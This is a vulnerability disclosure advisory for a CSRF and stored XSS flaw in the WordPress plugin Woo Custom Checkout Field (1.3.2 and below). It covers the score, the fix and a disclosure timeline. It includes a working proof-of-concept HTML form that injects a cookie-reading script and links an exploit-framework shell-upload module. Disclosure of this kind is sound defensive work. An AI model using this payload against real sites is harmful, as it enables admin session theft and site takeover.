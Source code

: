 ```yaml
---
layout: single
title: Woo Custom Checkout Field <= 1.3.2 CSRF + Stored XSS Disclosure
date: 2016-07-25
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - woo custom checkout field
  - stored xss
  - csrf
excerpt: Due to a lack of CSRF mitigation and entity encoding in the `ccf_insert` function found on line 118 of `include/ccf.php` and in the output generated by `template/datagrid.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/woo-custom-checkout-field/](https://wordpress.org/plugins/woo-custom-checkout-field/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the `ccf_insert` function found on line 118 of `include/ccf.php` and in the output generated by `template/datagrid.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.3.2 and below

## Solution
Upgrade to version 1.3.5

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=ccf_settings_menu">
    <input type="text" name="txt_field_name" value="field_name">
    <input type="text" name="txt_field_class" value="&lt;script&gt;alert(document.cookie);&lt;/script&gt;">
    <input type="text" name="txt_field_placeholder" value="placeholder">
    <input type="text" name="txt_field_type" value="text">
    <input type="text" name="txt_field_options" value="">
    <input type="submit" name="add_field" value="Submit">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/woo\_custom\_checkout\_field\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/stored/woo_custom_checkout_field_xss_shell_upload.rb)

## WPVDB-ID
8567

## Disclosure Timeline
* **2016-07-23**: Identified vulnerability, contacted vendor with POC and advice on how to resolve the issue.
* **2016-07-25**: No response from vendor, contacting WordPress to report issue.
* **2016-07-26**: Public disclosure
* **2016-07-26**: Plugin removed by WordPress pending a fix from the vendor
* **2016-07-29**: Vendor released an update which fixes the issue
